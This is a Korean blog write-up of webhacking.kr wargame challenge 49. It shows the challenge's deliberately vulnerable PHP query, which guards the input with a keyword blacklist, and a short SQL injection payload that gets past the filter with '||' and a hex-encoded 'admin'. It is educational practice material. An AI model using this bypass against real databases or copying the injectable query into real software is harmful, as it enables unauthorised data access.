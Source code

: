 ```yaml
---
title: "[webhacking.kr] 49번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "49번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 49번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152792504-e79a6af9-6eb6-4943-ab61-af213229089e.png)

  ```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
  ```

# 문제 풀이
  injection을 해야 하는 sql문은 다음과 같습니다.

  ```sql
select id from chall49 where lv={}
  ```

  우선 초기 인젝션 페이로드를 다음과 같이 구성합니다.
  ```sql
100||id='admin'
  ```

  위의 페이로드중 필터링에 걸리는 부분은 "'"밖에 없습니다.
  'admin' 대신에 0x61646d696e로 바꿔서 페이로드를 구성합니다.

  ```sql
100||id=0x61646d696e
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152793795-065137f4-63c3-4cc9-9edf-5197eec1e931.png)